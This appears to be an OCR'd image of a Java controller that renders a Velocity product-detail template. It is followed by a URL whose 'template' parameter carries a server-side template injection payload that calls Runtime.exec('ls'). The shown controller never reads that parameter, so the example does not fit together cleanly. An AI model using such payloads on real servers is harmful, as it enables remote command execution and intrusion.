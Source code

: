 source code:

```
public class ProductController extends BaseController {
    public void show(Map<String, Object> context) {
        int productId = Integer.parseInt(request.getParameter("productId"));
        Product product = productService.getProductById(productId);

        String template = "#set($page='Product Detail')\n" +
                "<html>\n" +
                "<body>\n" +
                "<h1>$esc.html($page)</h1>\n" +
                "<h2>$esc.html($product.name)</h2>\n" +
                "<p>$esc.html($product.description)</p>\n" +
                "<p>Price: $esc.html($product.price)</p>\n" +
                "</body>\n" +
                "</html>";

        context.put("product", product);
        context.put("template", template);
        render("product_detail.vm", context);
    }
}
```

```http://localhost:8080/product?productId=1&template=$class.inspect().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ls').toString()```
